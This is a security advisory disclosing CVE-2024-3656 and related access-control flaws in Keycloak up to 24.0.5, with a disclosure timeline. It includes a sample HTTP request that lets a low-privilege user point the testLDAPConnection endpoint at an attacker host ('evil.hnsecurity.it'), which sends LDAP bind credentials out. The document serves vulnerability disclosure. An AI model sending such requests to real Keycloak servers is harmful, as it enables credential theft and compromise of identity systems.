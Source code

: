 # HN Security Advisory - https://security.humanativaspa.it/

* Title: Multiple authentication and authorization vulnerabilities in Keycloak
* Products: Keycloak <= 24.0.5
* Author: Ema Srdoc <ema.srdoc at hnsecurity.it> and Maurizio Agazzini <maurizio.agazzini at hnsecurity.it>
* Date: 2024-10-30
* CVE Names and Vendor CVSS Scores:  
  CVE-2024-3656: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N  
* Advisory URLs:  
  https://github.com/hnsecurity/vulns/blob/main/HNS-2024-08-Keycloak.md

# Description

Multiple issues have been identified regarding the authentication and authorization of certain endpoints in the Keycloak software.

## Unauthenticated access to certain functionalities

It has been observed that certain functionalities within Keycloak, specifically the */metrics* and */health* endpoints, are accessible without proper authentication. Even though these endpoints do not provide sensitive information, it is preferable that they are accessible only to authenticated individuals with the correct privileges.

## Unauthorized use of administrative features by low-privilege users

Additionally, users with low privileges are able to utilize administrative functionalities within the Keycloak admin interface. This issue presents a significant security risk as it allows unauthorized users to perform actions reserved for administrators, potentially leading to data breaches or system compromise. Affected endpoints are:

- /admin/realms/myrealm/client-registration-policy/providers
- /admin/myrealm/console/whoami
- /admin/realms/myrealm/testLDAPConnection

In particular, the last functionality (*testLDAPConnection*), in the event that an AD authentication system has been configured, allows to modify application data, **enabling the submission of an LDAP request and consequently the access credentials to a malicious endpoint**.

An attacker with access to a non-administrative user can modify the *connectionUrl* parameter, and the password will be sent to an attacker-controller server. To successfully execute the attack, it's also necessary to know the *componentId* related to the domain authentication, which is retrievable in the cookies K*EYCLOAK_SESSION*, *KEYCLOAK_SESSION_LEGACY*, and in the responses returned by the */admin/myrealm/console/whoami* endpoints.

Example of modified request:

``` http
POST /admin/realms/myrealm/testLDAPConnection HTTP/2
Host: idp.url
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://idp.url/admin/myrealm/console/
Authorization: Bearer [...]
Content-Type: application/json
Content-Length: 308
Origin: https://idp.url
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"connectionUrl":"ldap://evil.hnsecurity.it","bindDn":"cn=test","bindCredential":"**********","useTruststoreSpi":"","connectionTimeout":"5000","startTls":"false","authType":"simple","action":"testAuthentication","componentId":"12345-1234-1234-1234-123456789"}
```

# Affected platforms

All Keycloak versions up to and including version 24.0.5 are affected.
 
# Disclosure timeline

04/04/2024 - First communication sent with all details.  
09/04/2024 - Response with request of clarifications.  
09/04/2024 - More details sent.  
09/04/2024 - Second reply.  
09/04/2024 - [Proposed fix](https://github.com/keycloak/keycloak/pull/27629) for the first issue.  
10/04/2024 - Multiple emails about the first issue.  
02/05/2024 - Request for information about the second issue (which is more severe).  
09/05/2024 - Response with assigned CVE-2024-3656 and request to not release any details: `For the moment there is no estimated keycloak version to include the fix`  
27/05/2024 - Request for an update and  a timeline for the fix  
11/06/2024 - [Advisory](https://github.com/keycloak/keycloak/security/advisories/GHSA-2cww-fgmg-4jqc) published without any notification.  
